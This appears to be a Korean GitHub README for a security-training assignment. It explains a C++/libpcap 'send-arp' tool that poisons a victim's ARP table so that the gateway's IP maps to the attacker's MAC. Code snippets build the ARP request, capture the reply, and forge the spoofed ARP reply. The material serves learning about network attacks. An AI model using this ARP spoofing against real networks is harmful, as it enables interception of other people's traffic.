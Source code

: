 # BoB 14기 보안제품개발트랙 과제 : send-arp


## 과제

Sender(Victim)의 ARP table을 변조하라.

### 실행

```cpp
syntax : send-arp <interface> <sender ip> <target ip> [<sender ip 2> <target ip 2> ...]
sample : sudo ./send-arp wlan0 10.3.3.16 10.3.3.1

```

---

- Victim(Sender)의 ARP 테이블을 조작하여 Gateway(Target)의 MAC 주소를 Attacker의 MAC으로 바꾸는 **ARP 스푸핑** 공격을 수행
- tech: `pcap_sendpacket()`으로 패킷 전송, `pcap_next_ex()`로 응답 수신

---

### 로직 설계

1. 공격자의 인터페이스에서 MAC 주소를 읽음
2. sender IP가 사용하는 MAC 주소를 얻기 위해 ARP Request를 브로드캐스트로 전송
3. sender의 ARP Reply를 수신하여 sender의 MAC 주소를 획득
4. 위 정보를 바탕으로 위조된 ARP Reply(ARP 감염 패킷)을 sender에게 전송
5. sender는 target IP에 대해 attacker MAC을 매핑함 → **ARP 테이블 변조 성공**

---

### 주요 구조체 설명

### 코드 설명

### 헤더 구조 설명 (`send-arp.h`)

### Ethernet 헤더 (`eth_hdr_t`)

```cpp
#define MAC_LEN 6
#define IP_LEN 4

```

MAC 주소(6바이트)와 IPv4 주소(4바이트)의 길이 정의

```cpp
struct eth_hdr_t {
    uint8_t dmac[6]; // 목적지 MAC
    uint8_t smac[6]; // 출발지 MAC
    uint16_t type;   // 상위 프로토콜 (0x0806: ARP)
};
```

`uint8_t`는 정확히 1바이트

MAC 주소는 6바이트이므로 `uint8_t[6]`로 표현

ARP를 위해 type 필드는 0x0806으로 설정된다. `#pragma pack(1)`은 패딩 없이 구조체를 메모리에 붙여 저장하도록 한다.(네트워크 패킷은 바이트 단위로 정해진 형식이기 때문)

### ARP 헤더 (`arp_hdr_t`)

```cpp
struct arp_hdr_t {
    uint16_t hrd;     // 하드웨어 타입 (1: Ethernet)
    uint16_t pro;     // 프로토콜 타입 (0x0800: IPv4)
    uint8_t hln;      // MAC 길이 (6)
    uint8_t pln;      // IP 길이 (4)
    uint16_t op;      // 1: request, 2: reply -> 오퍼레이션코드
    uint8_t smac[6];  // 출발지 MAC
    uint8_t sip[4];   // 출발지 IP
    uint8_t tmac[6];  // 목적지 MAC
    uint8_t tip[4];   // 목적지 IP
};

```

`op` 필드로 request/reply를 구분한다.

### send-arp.cpp

### `get_mac()`

```cpp
bool get_mac(const std::string& iface, uint8_t* mac)

```

`/sys/class/net/<iface>/address`에서 MAC 주소를 문자열로 읽고, `std::stoi(..., 16)`으로 16진수 문자열을 숫자로 변환해 byte 배열에 저장. 

`:` 제거 후 2자리씩 나눠 파싱

`pcap_open_live()`

```cpp
pcap_t* handle = pcap_open_live(dev, BUFSIZ, 1, 1, errbuf);
```

`BUFSIZ`: 캡처 버퍼 사이즈
`1`: promiscuous 모드로 설정 (내 MAC이 아닌 패킷도 수신 하기 위해서)
`1`: timeout(ms), 너무 짧으면 패킷을 못 받을 수 있기 때문

---

### ARP Request 패킷 구성

```cpp
memset(eth->dmac, 0xff, MAC_LEN); // 브로드캐스트
memcpy(eth->smac, attacker_mac, MAC_LEN);
eth->type = htons(0x0806);

 
```

`host to network short(htons)` : 네트워크는 Big Endian, 시스템은 Little Endian일 수 있으므로 명시적 변환을 하기 위해서

```cpp
arp->op  = htons(1); // ARP Request
inet_pton(AF_INET, target_ip, arp->sip); // source는 내가 target이라 가정
inet_pton(AF_INET, sender_ip, arp->tip); // 목적지는 sender

```

ARP Request는 이 IP 주소를 가진 장치에게  MAC 주소가 무엇인지를 묻는다.

`arp->op = htons(1);`-> ARP Request(요청) 패킷임을 명시하는 부분

***ARP 프로토콜에서 op (Operation) 필드**

| 값 | 의미 |
| --- | --- |
| 1 | ARP Request |
| 2 | ARP Reply |

*ARP 패킷은 네트워크 바이트 순서(Big Endian) 를 사용함

**ARP 요청을 sender에게 한 이유** → 목적은 sender의 MAC 주소를 얻는 것.

즉, `target_ip`에서 `sender_ip`의 MAC을 알아내는 요청을 broadcast로 뿌려 주었다. 

---

### ARP Reply 수신 (sender의 MAC 획득)

```cpp
	while (true) {
		int res = pcap_next_ex(handle, &header, &pkt);
		if (res != 1) continue;

		auto* r_eth = (eth_hdr_t*)pkt;
		auto* r_arp = (arp_hdr_t*)(pkt + sizeof(eth_hdr_t));

		if (ntohs(r_eth->type) == 0x0806 &&
			ntohs(r_arp->op) == 2 &&
			memcmp(r_arp->sip, arp->tip, IP_LEN) == 0) {
			memcpy(sender_mac, r_arp->smac, MAC_LEN);
		break;
			}
	}

```

원하는 ARP Reply가 올 때까지 while문으로 반복해주었다. 

ARP Reply 필터링해 주었다. 

패킷을 캡처하는 `pcap_next_ex()` 를 반복해서 MAC 주소를 추출한다. 

EtherType이 0x0806인지를 확인하고, ARP Reply인지(2) 확인한 뒤, 보내는 쪽 IP가 우리가 ARP 요청한 대상(sender_ip)인지 확인한다. (`sip == sender_ip`이면 응답 보낸 건 sender이다.)

---

### 위조된 ARP Reply 전송 (감염 패킷)

```cpp
arp->op  = htons(2); // ARP Reply
memcpy(arp->smac, attacker_mac, MAC_LEN);  // 출발 MAC = attacker (위조)
inet_pton(AF_INET, target_ip, arp->sip);   // 출발 IP = target (위조)
memcpy(arp->tmac, sender_mac, MAC_LEN);    // 목적 MAC = sender
inet_pton(AF_INET, sender_ip, arp->tip);   // 목적 IP = sender

```

sender에게 보내는 위조된 패킷이다.

`arp->op = htons(2);`-> ARP Reply(응답) 패킷임을 명시하는 부분이다. 

2를 넣으면 이 패킷이 ARP Reply임을 나타낸다. arp reply 패킷으로 위장해야 하므로 해당 코드를 사용한다.

---

### knowledge

| 구성 요소 | 크기 (bytes) |  
| --- | --- | --- |
| Ethernet Header | 14 bytes |  
| ARP Header | 28 bytes |  
| 합계 | **42 bytes** |

---

### **Reference**

[Attacker(자신) Mac 주소 값를 알아 내는 방법]

https://github.com/YOGYUI/Sniffets/tree/main/linux_get_mac_address/src

**GPT, Claude**

https://chatgpt.com/

https://claude.ai/

[op 1,2]

https://whatdocumentary.tistory.com/52

### Issue

---

ARP Request 보냈는데 되지 않았다. 알고보니, `op = 1` 을 그냥 넣고, `htons()` 을 넣지 않아서였다. ARP op 필드가 0x0100이 된 것이다.
